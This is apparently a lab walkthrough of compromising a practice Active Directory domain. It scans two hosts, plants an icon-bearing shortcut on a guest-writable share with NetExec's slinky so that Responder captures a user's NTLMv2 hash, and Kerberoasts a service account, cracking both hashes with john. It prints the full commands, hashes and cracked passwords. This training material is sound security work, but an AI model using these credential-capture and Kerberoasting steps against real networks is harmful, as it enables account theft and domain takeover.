In this walkthrough, we will be compromising Orion, an easy-difficulty Active Directory lab from Hack Smarter Labs, with VPN access, no credentials, and two hosts in scope: the domain controller, DC01, and WS-IT. Guest can write to an upload share on WS-IT, and a shortcut planted there with NetExec's slinky module captures a hash from `b.williams` that cracks with john. As `b.williams`, we Kerberoast `svc-onboarding` and crack its password. `svc-onboarding`'s group holds `ForceChangePassword` over `s.mitchell`, whose own group holds `GenericWrite` over `m.white`, and Shadow Credentials turns that write into `m.white`'s NT hash and a WinRM shell on WS-IT. `m.white`'s PowerShell history holds the password for `m.reeves`, who can read a script on the IT share carrying the credentials for `svc-pki`. `svc-pki` can enroll in a certificate template flagged ESC1, so we request a certificate as the domain Administrator and take a shell on the domain controller.


Created by: [2ubZ3r0](https://www.hacksmarter.org/courses/f45b3f86-5535-41c1-8f39-eb728b54132f)

Let's get started.

## Objective

Orion Corp has hired you to perform an internal penetration test against two machines within their network. Your task is to identify all vulnerabilities and (if possible) elevate your privileges to Domain Admin.

Initial Access:

The client has provided you with VPN access to their network, but no credentials.

## Scope

**Target (DC01):** `10.0.0.5`

**Target (WS-IT):** `10.0.0.6`

## RustScan (DC01)

We start with [RustScan](https://github.com/bee-san/RustScan) to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.0.0.5 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-10-24 20:22:51Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: orion.local, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.orion.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.orion.local
| Issuer: commonName=orion-DC01-CA/domainComponent=orion
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-03T16:27:30
| Not valid after:  2027-10-03T16:27:30
| MD5:     4a14 7363 1a5a 86ec ed24 876c feeb 6666
| SHA-1:   13c6 0c15 90e5 144a 9274 fc8c 7bc4 b1d2 8fbc 5f45
| SHA-256: 0ef1 1b2f 5005 fd57 fd68 8352 55de a90f ceec 2915 bb9f 2670 0fe6 8d8b f5d3 980b
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: orion.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.orion.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.orion.local
| Issuer: commonName=orion-DC01-CA/domainComponent=orion
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-03T16:27:30
| Not valid after:  2027-10-03T16:27:30
| MD5:     4a14 7363 1a5a 86ec ed24 876c feeb 6666
| SHA-1:   13c6 0c15 90e5 144a 9274 fc8c 7bc4 b1d2 8fbc 5f45
| SHA-256: 0ef1 1b2f 5005 fd57 fd68 8352 55de a90f ceec 2915 bb9f 2670 0fe6 8d8b f5d3 980b
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: orion.local, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.orion.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.orion.local
| Issuer: commonName=orion-DC01-CA/domainComponent=orion
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-03T16:27:30
| Not valid after:  2027-10-03T16:27:30
| MD5:     4a14 7363 1a5a 86ec ed24 876c feeb 6666
| SHA-1:   13c6 0c15 90e5 144a 9274 fc8c 7bc4 b1d2 8fbc 5f45
| SHA-256: 0ef1 1b2f 5005 fd57 fd68 8352 55de a90f ceec 2915 bb9f 2670 0fe6 8d8b f5d3 980b
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: orion.local, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.orion.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.orion.local
| Issuer: commonName=orion-DC01-CA/domainComponent=orion
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-03T16:27:30
| Not valid after:  2027-10-03T16:27:30
| MD5:     4a14 7363 1a5a 86ec ed24 876c feeb 6666
| SHA-1:   13c6 0c15 90e5 144a 9274 fc8c 7bc4 b1d2 8fbc 5f45
| SHA-256: 0ef1 1b2f 5005 fd57 fd68 8352 55de a90f ceec 2915 bb9f 2670 0fe6 8d8b f5d3 980b
3389/tcp  open  ms-wbt-server syn-ack ttl 127
| ssl-cert: Subject: commonName=DC01.orion.local
| Issuer: commonName=DC01.orion.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-02T15:11:15
| Not valid after:  2027-04-03T15:11:15
| MD5:     9d39 8b55 1e05 1f19 e69d b919 3911 c884
| SHA-1:   20e9 65f8 6898 b42d 5c56 7903 9eb9 6508 317e 60d0
| SHA-256: 468f 41fd a1ef 7857 a684 9375 ccf7 dd21 9e97 04e8 ba12 76b6 e666 1400 27ff c502
| rdp-ntlm-info: 
|   Target_Name: ORION
|   NetBIOS_Domain_Name: ORION
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: orion.local
|   DNS_Computer_Name: DC01.orion.local
|   Product_Version: 10.0.26100
|_  System_Time: 2026-10-24T20:23:46+00:00
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49680/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49698/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49736/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49744/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49821/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389, LDAPS on 636, the global catalog on 3268 and 3269, SMB on 445, RDP on 3389, and WinRM on 5985. The LDAP banner gives us the domain as `orion.local`, and the certificate and RDP NTLM info confirm the hostname as `DC01.orion.local`. We add both to `/etc/hosts` before continuing.

## RustScan (WS-IT)

We scan WS-IT the same way.

```
rustscan -a 10.0.0.6 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127
|_ssl-date: TLS randomness does not represent time
| rdp-ntlm-info: 
|   Target_Name: ORION
|   NetBIOS_Domain_Name: ORION
|   NetBIOS_Computer_Name: WS-IT
|   DNS_Domain_Name: orion.local
|   DNS_Computer_Name: WS-IT.orion.local
|   DNS_Tree_Name: orion.local
|   Product_Version: 10.0.26100
|_  System_Time: 2026-10-24T20:23:52+00:00
| ssl-cert: Subject: commonName=WS-IT.orion.local
| Issuer: commonName=WS-IT.orion.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-02T15:45:35
| Not valid after:  2027-04-03T15:45:35
| MD5:     2f8c a10b 70b8 4159 3b01 2152 a10f 704d
| SHA-1:   75cf 5319 f457 7e6e 88be f34d d063 ecbf 742e a31f
| SHA-256: a91b 9c34 70b5 71dd bb7e 229d 6f9f 017f b3de d13a ecda 10a3 b587 3706 cde2 1a21
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

SMB on 445, RDP on 3389, and WinRM on 5985. The RDP NTLM info names the host `WS-IT.orion.local` in the same domain, and we add it to `/etc/hosts` as well.

## SMB Enumeration

With no credentials, we try the Guest account against SMB on WS-IT.

```
nxc smb 10.0.0.6 -u 'Guest' -p '' --shares
```

```
SMB         10.0.0.6        445    WS-IT            [*] Windows 11 / Server 2025 Build 26100 x64 (name:WS-IT) (domain:orion.local) (signing:True) (SMBv1:None)
SMB         10.0.0.6        445    WS-IT            [+] orion.local\Guest: 
SMB         10.0.0.6        445    WS-IT            [*] Enumerated shares
SMB         10.0.0.6        445    WS-IT            Share           Permissions     Remark
SMB         10.0.0.6        445    WS-IT            -----           -----------     ------
SMB         10.0.0.6        445    WS-IT            ADMIN$                          Remote Admin
SMB         10.0.0.6        445    WS-IT            C$                              Default share
SMB         10.0.0.6        445    WS-IT            Company                         Company documents - all staff
SMB         10.0.0.6        445    WS-IT            IPC$            READ            Remote IPC
SMB         10.0.0.6        445    WS-IT            IT                              IT admins only
SMB         10.0.0.6        445    WS-IT            Uploads         READ,WRITE      Public Upload Share
```



*Guest authenticating to WS-IT with READ and WRITE on the Uploads share*

Guest gets in, with READ and WRITE on `Uploads`. `Company` and `IT` are listed with no access. We connect to `Uploads` with smbclient.

```
smbclient //10.0.0.6/Uploads -U 'Guest%'
```

```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Oct 29 22:08:45 2026
  ..                                  D        0  Sat Oct  3 15:59:18 2026
  README.txt                          A      509  Sat Oct  3 12:24:40 2026

                20839419 blocks of size 4096. 13396328 blocks available
smb: \> get README.txt
getting file \README.txt of size 509 as README.txt (1.7 KiloBytes/sec) (average 1.7 KiloBytes/sec)
```



*smbclient connected to the Uploads share, listing and downloading README.txt*

The share holds a single `README.txt`, which we read on our own machine.

```
cat README.txt
```

```
This share is provided for staff to drop files for the IT department
(scanned documents, logs, screenshots, driver files, etc.).

GUIDELINES
----------
- Files placed here are collected and processed by IT daily.
- Do NOT store sensitive or personal data in this folder.
- Files older than 30 days are automatically removed.
- For urgent requests, contact the helpdesk: helpdesk@orion.local

Thank you,
Orion Corp IT Operations
```

The README says IT collects files from this share daily, so someone opens this folder regularly, and Guest can write to it.

## Access as b.williams

We first drop [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) files on the share with Responder listening, and no hash comes back. [Secure Ideas' post on slinky](https://www.secureideas.com/blog/no-broadcast-traffic-no-problem-netexec-smb-slinky-module) points us to a NetExec module that handles the delivery itself.

```
nxc smb -L | grep slinky
```

```
[*] slinky                    Creates windows shortcuts with the icon attribute containing a URI to the specified  server (default SMB) in all shares with write permissions
```

Where ntlm_theft builds files for us to upload, slinky authenticates to the share and writes the shortcut there itself. The shortcut's icon points at a UNC path on our host, so when Explorer displays the folder, it fetches the icon over SMB and authenticates as whoever is viewing it. We check the module's options.

```
nxc smb WS-IT.orion.local -u 'guest' -p '' -M slinky --options
```

```
[*] slinky module options:

SERVER        IP of the listening server (running Responder, etc)
NAME          LNK file name written to the share(s)
ICO_URI       Override full ICO path (e.g. http://192.168.1.2/evil.ico or \\\\192.168.1.2\\testing_path\\icon.ico)
SHARES        Specific shares to write to (comma separated, e.g. SHARES=share1,share2,share3)
IGNORE        Specific shares to ignore (comma separated, default: C$,ADMIN$,NETLOGON,SYSVOL)
CLEANUP       Cleanup (choices: True or False)
```

By default slinky writes to every writable share, so `SHARES` limits it to `Uploads`. We start Responder on the tunnel interface.

```
sudo responder -I tun0
```

With Responder listening, we run slinky against WS-IT as Guest.

```
nxc smb WS-IT.orion.local -u 'guest' -p '' -M slinky -o SERVER=192.168.211.2 NAME=0xB1rd SHARES=Uploads
```

```
SMB         10.0.0.6        445    WS-IT            [*] Windows 11 / Server 2025 Build 26100 x64 (name:WS-IT) (domain:orion.local) (signing:True) (SMBv1:None)
SMB         10.0.0.6        445    WS-IT            [+] orion.local\guest: 
SMB         10.0.0.6        445    WS-IT            [*] Enumerated shares
SMB         10.0.0.6        445    WS-IT            Share           Permissions     Remark
SMB         10.0.0.6        445    WS-IT            -----           -----------     ------
SMB         10.0.0.6        445    WS-IT            ADMIN$                          Remote Admin
SMB         10.0.0.6        445    WS-IT            C$                              Default share
SMB         10.0.0.6        445    WS-IT            Company                         Company documents - all staff
SMB         10.0.0.6        445    WS-IT            IPC$            READ            Remote IPC
SMB         10.0.0.6        445    WS-IT            IT                              IT admins only
SMB         10.0.0.6        445    WS-IT            Uploads         READ,WRITE      Public Upload Share
SLINKY      10.0.0.6        445    WS-IT            [+] Found writable share: Uploads
SLINKY      10.0.0.6        445    WS-IT            [+] Created LNK file on the Uploads share
```



*NetExec's slinky module creating the 0xB1rd shortcut on the Uploads share*

The shortcut lands on `Uploads`, and Responder catches the NTLMv2 hash of `b.williams`.

```
[SMB] NTLMv2-SSP Client   : 10.0.0.6
[SMB] NTLMv2-SSP Username : ORION\b.williams
[SMB] NTLMv2-SSP Hash     : b.williams::ORION:5e81cf0f29becdb0:F3A6A9A37794BEC58C54E1BC5C466749:010100000000000000BF682CDC63DD01159B00170D08113400000000020008004F004B003200340001001E00570049004E002D00410045004100520047003500490049004B005600470004003400570049004E002D00410045004100520047003500490049004B00560047002E004F004B00320034002E004C004F00430041004C00030014004F004B00320034002E004C004F00430041004C00050014004F004B00320034002E004C004F00430041004C000700080000BF682CDC63DD01060004000200000008003000300000000000000000000000002000003AE1276A6448F397EEE3428EEE5E3A39341A54D6426C16CABDE6FDC8DA43758D0A001000000000000000000000000000000000000900240063006900660073002F003100390032002E003100360038002E003200310031002E0032000000000000000000 
```



*Responder catching the NTLMv2 hash for ORION\b.williams*

We save the hash to `b_williams_hash.txt` and crack it with john.

```
john b_williams_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
williams123      (b.williams)     
1g 0:00:00:00 DONE (2026-10-29 22:17) 14.28g/s 4169Kp/s 4169Kc/s 4169KC/s winers..stacylee
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```



*john recovering williams123 from the b.williams NTLMv2 hash*

Cracked. We validate against the DC.

```
nxc smb 10.0.0.5 -u 'b.williams' -p 'williams123' --shares
```

```
SMB         10.0.0.5        445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:orion.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.0.0.5        445    DC01             [+] orion.local\b.williams:williams123 
SMB         10.0.0.5        445    DC01             [*] Enumerated shares
SMB         10.0.0.5        445    DC01             Share           Permissions     Remark
SMB         10.0.0.5        445    DC01             -----           -----------     ------
SMB         10.0.0.5        445    DC01             ADMIN$                          Remote Admin
SMB         10.0.0.5        445    DC01             C$                              Default share
SMB         10.0.0.5        445    DC01             IPC$            READ            Remote IPC
SMB         10.0.0.5        445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.0.5        445    DC01             SYSVOL          READ            Logon server share 
```



*Validating b.williams credentials with NetExec*

Valid, with READ on the default shares.

## BloodHound Enumeration

With a working credential, we collect BloodHound data. We point NetExec at the DC for DNS with `--dns-server` so the collector can resolve the domain records it asks for.

```
nxc ldap 10.0.0.5 -u 'b.williams' -p 'williams123' --bloodhound --collection All --dns-server 10.0.0.5
```

```
LDAP        10.0.0.5        389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:orion.local) (signing:Enforced) (channel binding:When Supported) 
LDAP        10.0.0.5        389    DC01             [+] orion.local\b.williams:williams123 
LDAP        10.0.0.5        389    DC01             Resolved collection methods: group, container, dcom, objectprops, session, rdp, localadmin, acl, trusts, psremote
LDAP        10.0.0.5        389    DC01             Done in 0M 18S
LDAP        10.0.0.5        389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.0.0.5_2026-10-24_173712_bloodhound.zip
```

We import the data into BloodHound and run the All Kerberoastable users query, which returns `svc-onboarding`.



*BloodHound's All Kerberoastable users query returning svc-onboarding*

## Access as svc-onboarding

Kerberoasting targets accounts with a Service Principal Name set. Any authenticated domain user can request a service ticket for an SPN, and part of that ticket is encrypted with a key derived from the service account's password. We request the ticket and crack that portion offline.

```
nxc ldap 10.0.0.5 -u 'b.williams' -p 'williams123' --kerberoasting kerb_output.txt
```

```
LDAP        10.0.0.5        389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:orion.local) (signing:Enforced) (channel binding:When Supported) 
LDAP        10.0.0.5        389    DC01             [+] orion.local\b.williams:williams123 
LDAP        10.0.0.5        389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.0.0.5        389    DC01             [*] Total of records returned 1
LDAP        10.0.0.5        389    DC01             [*] sAMAccountName: svc-onboarding, memberOf: CN=Helpdesk Operators,OU=Orion,DC=orion,DC=local, pwdLastSet: 2026-10-06 15:30:28.048542, lastLogon: <never>
LDAP        10.0.0.5        389    DC01             $krb5tgs$23$*svc-onboarding$ORION.LOCAL$orion.local\svc-onboarding*$a0d40a0aacfb0b500cd0a1c094232fb9$b1d8628658a736496c88abbc936c1ebf475a90f9be83a2fca3a8da10298eef3f39cd5192616979f90603ddfbf6b3796f6cf015468834ff9d803d3b298eb014ded023f7f405d679424218ed3e705a90379f61caa7ebe4348827094e4a67498c0828250ec8878726e33d938788f15776312bb996f8f211e832410adeb1301dc646ef9d47df49e94f18ba1de4a7cfc2e099b287885124b74346ca665adb35edfab96280608366985d5e0be16eab61757f77a921294c64212a8cc47a6c797ad361226a9f1f4d4b4ed011d5464db7942d7d39987a0926c9be9453d07aad8c327aafd154190f81113ae29babdd405666b5d5747199515f37a3b18a7d4f4d65bf471c5474c5063037e64c186e7ef71e8c0057da8e92c41f707065ed81cdaa682430d088492354d80a7b38711c889cc31a70626b59e6f2871f3c7cefa0aabc71b58107f028cc34510209067c2776f9958c5399354844cfade5ba411484c6820d7246477f84459c20e701b5da0d8f60af7332b180428d5f55429b009af602e17f080f151b2069cd89301c9ed2de1ef1578f9e39561353bc93c4947309eb7ab5034cdf8de9f047f27ab40a47643695b0a158eebc20a9d056b138e45f89fdf66eb5cd59c98d7a38963f6edd6737dcb254bdf4462c783a92bd50b88c888abd21f3c73b26759e2ed2c3931b230602e47ba365b64c2676b7fee940b4a30e97219090d2383cdf5889b5d80a434b9648fd3991e30d3adfa44528d398d1cfd59b7240cd956297977d3cedbb4c579827d06e68f2a3067a8fc289ca47dcee7f7b76ede060da400bbc3fe5d86a5ca4b8536484bc5c661c7ef10e2a4d3923a2fd6302e73e3f0f6185c882638d8f76c9c42b3e94c2280920d62bc971c3a7a98929dbf97d920f8dc572a928b5e425c0d1b551cdd1c01bdd56891018c5b0f036f722a421210c51dada652b65dcf49b35bee71619f7c5e72f6e6798d02b21806d782fd2268331582d4fc1f8332cf5455a0f14bbb079b7b37e62a71a2e62926b7ae94e2674f540d7bee91a9d1cb6471bd314c8f5cadbafe57a97a78ba468e5bc7f6f7048e746e209770d8e96ea11b7fc90fac4c911a06573d32e759d2f335bf16f345093bd709ecab67e336da5cd6e67e079cab8db768a8351720c3ece54f518bfaa711c1fc7f16b87837b2603d7ff5c69e7e9c273eb5a22154a11db09e154848786c39639425be00e4a6121aa0c99c4080c617343937008b0fc1e291f282c4b6dfe110da9e1022df2f24a3395c497b018e7a5638a794e3e5cf3cce22331fb635c5f6d80d07f457f05566ddfce63b054322e77bbde4ac641f45552ae85fca4befaf5294ee0cd077c5b9f66ec77668a4be674d4c6d2c3f9738057fb88349dad735d019ca6573519eec95e8146168bf3f5faae10f4d0e6a77fde2a1356a0567ed87d40a044e2e2a0d86afe3df99af092cd0f541fbfbef117af7801e05af15393e464d851
```



*Kerberoasting: svc-onboarding TGS hash captured via NetExec*

One ticket comes back, for `svc-onboarding`. We crack it with john.

```
john kerb_output.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password2510     (?)     
1g 0:00:00:00 DONE (2026-10-29 22:25) 2.631g/s 3706Kp/s 3706Kc/s 3706KC/s patito4667983..paschaline
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```



*john recovering password2510 from the svc-onboarding TGS hash*

Cracked. We validate against the DC.

```
nxc smb 10.0.0.5 -u 'SVC-ONBOARDING' -p 'password2510' --shares
```

```
SMB         10.0.0.5        445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:orion.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.0.0.5        445    DC01             [+] orion.local\SVC-ONBOARDING:password2510 
SMB         10.0.0.5        445    DC01             [*] Enumerated shares
SMB         10.0.0.5        445    DC01             Share           Permissions     Remark
SMB         10.0.0.5        445    DC01             -----           -----------     ------
SMB         10.0.0.5        445    DC01             ADMIN$                          Remote Admin
SMB         10.0.0.5        445    DC01             C$                              Default share
SMB         10.0.0.5        445    DC01             IPC$            READ            Remote IPC
SMB         10.0.0.5        445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.0.5        445    DC01             SYSVOL          READ            Logon server share 
```

